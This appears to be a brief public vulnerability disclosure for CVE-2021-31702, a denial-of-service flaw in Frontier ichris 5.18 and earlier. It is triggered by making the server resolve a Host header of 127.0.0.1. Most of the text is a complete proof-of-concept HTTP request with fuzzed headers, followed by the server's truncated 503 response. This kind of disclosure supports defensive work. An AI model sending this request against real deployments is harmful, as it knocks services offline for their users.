 # CVE-2021-31702
CVE-2021-31702

Frontier ichris through 5.18 mishandles making a DNS request for the hostname in the HTTP Host header, as demonstrated by submitting 127.0.0.1 multiple times for DoS.

Affected product:
ichris : 5.18 - and prior

Request
GET /?dsdjigrg=1 HTTP/1.1
Host: 127.0.0.1
Accept-Encoding: gzip, deflate, 1dqep64s0r
Accept: */*, text/1dqep64s0r
Accept-Language: en-US,en-GB,18odisadn0r;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4381.66 Safari/527.31 1jfdos9fjm
Connection: close
Cache-Control: max-age=0
Origin: https://XXXXXXXX.com

Response
HTTP/1.1 503 Service Unavailable
Content-Type: text/html
Cache-Control: no-cache, no-store
Connection: close
Content-Length: 678
X-Iinfo: 14-2462288-0 0NNN RT(1607382481614 0) q(0 -1 -1 -1) r(28 -1)

<html style="height:100%"><head><META NAME="ROBOTS" CONTENT="NOINDEX, NOFOLLOW"><meta name="format-detection" content="telephone=no"><meta name="viewport" content="initial-scale=1.0"><meta http-equiv=


Credit: l00neyhacker
